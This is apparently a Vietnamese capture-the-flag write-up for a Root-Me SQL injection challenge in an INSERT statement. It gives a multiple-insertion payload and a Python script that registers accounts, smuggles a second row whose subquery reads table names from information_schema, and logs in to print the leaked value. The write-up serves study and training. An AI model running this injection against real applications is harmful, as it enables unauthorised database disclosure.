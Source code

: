 Và dựa vào tiêu đề thì có vẻ đây là một lỗ hổng liên quan đến `Insert`. Có lẽ là chức năng `INSERT` không có bất kì filter nào .

Ví dụ : INSERT INTO users VALUES (username, password, email)

![image](https://hackmd.io/_uploads/BkUzBRtHp.png)

![image](https://hackmd.io/_uploads/rJkmHRKBa.png)

![image](https://hackmd.io/_uploads/SJvVrAtHT.png)

Ý tưởng là thực hiện exploit với **Multiple Insertions**

**Payload**: INSERT INTO users VALUES (username, password, email), (new_user,new_passwd, attack_payload)-- -

Đầu tiên kiểm tra version : 

![image](https://hackmd.io/_uploads/SyOJ869ST.png)



![image](https://hackmd.io/_uploads/rk8QUp9rT.png)

Vậy ta vẫn có thể dùng cú pháp trong MySQL để payload 

Bởi vì chall thì phải thực hiện register, login nhiều lần nên mình viết code cho nhanh

Đầu tiên thì tìm tên table trước

```python=
import sys
import requests
import urllib3
import urllib

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def In_Ket_Qua(content,cnt):
    to_replace = ['<br />', '</body>', '</html>', '\n']
    for tag in to_replace:
        content = content.replace(tag, "")
    p = content.find("Email :") + len("Email :")
    print(cnt, "-", content[p:])

def main():
    offset = 0
    proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
    URL_reg = "http://challenge01.root-me.org/web-serveur/ch33/?action=register"
    URL_log = "http://challenge01.root-me.org/web-serveur/ch33/?action=login"
    for i in range(1000, 2000):
        reg = {"username": f"{i - 1}", "password": f"{i - 1}","email": f"{i - 1}'),('{i}','{i}',(select table_name from information_schema.tables limit {offset},1))-- -"}
        log = {"username": f"{i}", "password": f"{i}"}
        http_reg = requests.post(url=URL_reg, data=reg, verify=False, proxies=proxies)
        if "You can logged in !" in http_reg.text:
            http_log = requests.post(url=URL_log, data=log, verify=False, proxies=proxies)
            r = http_log.text
            In_Ket_Qua(r,offset)
            offset += 1

if __name__ == "__main__":
    main()
```
